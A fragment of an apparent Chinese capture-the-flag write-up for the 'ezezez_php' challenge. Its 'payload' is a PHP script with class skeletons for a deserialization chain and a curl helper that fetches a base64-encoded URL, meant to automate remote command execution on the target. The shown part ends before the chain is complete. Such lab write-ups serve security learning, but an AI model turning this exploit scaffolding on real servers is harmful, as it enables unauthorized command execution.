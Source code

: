 ![ezezez_php-2](./img/ezezez_php-2.png)

对每一个手动操作的命令都去生成再手动请求过于麻烦，所以使用`php`直接进行`post`请求并返回命令执行结果即可

`payload`

```php
<?php
class Rd
{
    public $ending;
    public $cl;

    public $poc;

}

class Poc
{
    public $payload;

    public $fun;

}

class Er
{
    public $symbol;
    public $Flag;

}

class Ha
{
    public $start;
    public $start1;
    public $start2;

}

function get($url)
{
    $url = base64_decode($url);
    var_dump($url);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $output = curl_exec($ch);
    $result_info = curl_getinfo($ch);
    var_dump($result_info);
    curl_close($ch);
    var_dump($output);
}


```